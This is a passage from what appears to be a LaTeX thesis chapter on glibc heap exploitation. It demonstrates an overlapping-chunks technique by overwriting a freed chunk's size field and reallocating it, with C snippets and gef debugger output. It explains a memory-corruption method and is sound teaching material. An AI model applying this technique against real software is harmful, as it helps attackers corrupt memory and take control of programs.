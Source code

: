 \documentclass{masterthesis}
\newcommand*\ub{unsorted bins}
\newcommand*\mmapc{\lstinline{mmap}}
\begin{document}
In the next step, like we did before, We have to change the chunk size by overflow:

\begin{lstlisting}[language=c,frame=tlrb]
int evil_chunk_size = 0x181;
int evil_region_size = 0x180 - 8;
*(p2-1) = evil_chunk_size;
\end{lstlisting}

\begin{lstlisting}[frame=tlrb]
Chunk(addr=0x555555559010, size=0x100, flags=PREV_INUSE)
 [0x0000555555559010  31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 1111111111111111]
Chunk(addr=0x555555559110, size=0x180, flags=PREV_INUSE)
 [0x0000555555559110  78 1b dd f7 ff 7f 00 00 78 1b dd f7 ff 7f 00 00 x.......x.......]

unsorted_bins[0]: fw=0x555555559100, bk=0x555555559100
 Chunk(addr=0x555555559110, size=0x180, flags=PREV_INUSE)
 \end{lstlisting}

As you remember, currently , p2 located at the \ub{} , also, we change the size of p2, so, when the heap manager receives an allocation request it return p2, as the result, it have overlap with previous chunks:

\begin{lstlisting}[language=c,frame=tlrb]
p4 = malloc(evil_region_size);
 \end{lstlisting}

\begin{lstlisting}[frame=tlrb]
Chunk(addr=0x555555559010, size=0x100, flags=PREV_INUSE)
 [0x0000555555559010  31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 1111111111111111]
Chunk(addr=0x555555559110, size=0x180, flags=PREV_INUSE)
 [0x0000555555559110  78 1b dd f7 ff 7f 00 00 78 1b dd f7 ff 7f 00 00 x.......x.......]
\end{lstlisting}

\begin{lstlisting}[frame=tlrb]
gef p p4
$11 = (intptr_t *) 0x555555559110
gef p p2
$12 = (intptr_t *) 0x555555559110
gef p p1
$13 = (intptr_t *) 0x555555559010
gef p p3
$14 = (intptr_t *) 0x555555559210
\end{lstlisting}

As you can see, p3 is not in the list of chunks anymore, however, the pointer still accessible inside the application.Now the p3 and p4 have overlap, so , write data on one of them could overwrite the other one data
What happened if the chunk size was so big? As we mentioned, the system can use \mmapc{} in this scenario. Take consider the following code:
\end{document}
